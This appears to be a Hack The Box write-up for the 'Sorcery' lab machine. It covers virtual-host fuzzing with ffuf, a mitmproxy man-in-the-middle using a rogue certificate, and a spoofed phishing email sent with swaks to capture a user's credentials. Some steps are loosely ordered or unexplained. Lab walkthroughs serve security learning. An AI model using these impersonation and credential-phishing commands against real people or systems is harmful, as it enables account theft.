 ```yaml
---
layout: default
title: Sorcery
platform: Hack The Box
---
```


Add the IPs to `/etc/hosts`:

<pre><code><span style="color:#ffffff">10.10.11.73 sorcery.htb git.sorcery.htb
10.10.14.40 pwn.sorcery.htb</span></code></pre>

Visit [https://sorcery.htb](https://sorcery.htb) and enumerate the repository:

<pre><code><span style="color:#00ff00">git</span><span style="color:#ffffff"> clone https://git.sorcery.htb/nicole_sullivan/infrastructure.git</span></code></pre>

Enumerate virtual hosts with `ffuf`:

<pre><code><span style="color:#00ff00">ffuf</span><span style="color:#ffffff"> -w /usr/share/payloads/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u https://sorcery.htb -H </span><span style="color:#ffd700">"Host: FUZZ.sorcery.htb"</span><span style="color:#ffffff"> -mc 200

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://sorcery.htb
 :: Wordlist         : FUZZ: /usr/share/payloads/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.sorcery.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
________________________________________________

:: Progress: [28/4989] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: :: Progress: [40/4989] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: :: Progress: [80/4989] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: :: Progress: [162/4989] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :::: Progress: [246/4989] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :::: Progress: [325/4989] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] ::==git                     [Status: 200, Size: 13591, Words: 1048, Lines: 272, Duration: 123ms]==
:: Progress: [340/4989] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :::: Progress: [410/4989] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :::: Progress: [490/4989] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] ::

</span></code></pre>



This reveals `git.sorcery.htb`; add it to `/etc/hosts` and create an account on the site, then log in.

Capture traffic with a rogue host and `mitmproxy`:

<pre><code><span style="color:#00ff00">sudo</span><span style="color:#ffffff"> </span><span style="color:#00ff00">mitmproxy</span><span style="color:#ffffff"> --mode reverse:https://git.sorcery.htb --certs pwn.sorcery.htb.pem -k -p 443</span></code></pre>

Send a phishing email to capture credentials:

<pre><code><span style="color:#00ff00">proxychains4</span><span style="color:#ffffff"> -f /etc/proxychains4.conf </span><span style="color:#00ff00">swaks</span><span style="color:#ffffff"> --to tom_summers@sorcery.htb --from nicole_sullivan@sorcery.htb --server 172.19.0.10 --port 1025 --data </span><span style="color:#ffd700">"Subject: Security Alert\n\nPlease verify your account at https://pwn.sorcery.htb/user/login"</span></code></pre>

Extract the captured credentials from the proxied session:

<pre><code><span style="color:#00ff00">magick</span><span style="color:#ffffff"> xwd:Xvfb_screen0 credentials.png
</span><span style="color:#00ff00">open</span><span style="color:#ffffff"> credentials.png</span></code></pre>

*Screenshots omitted.*
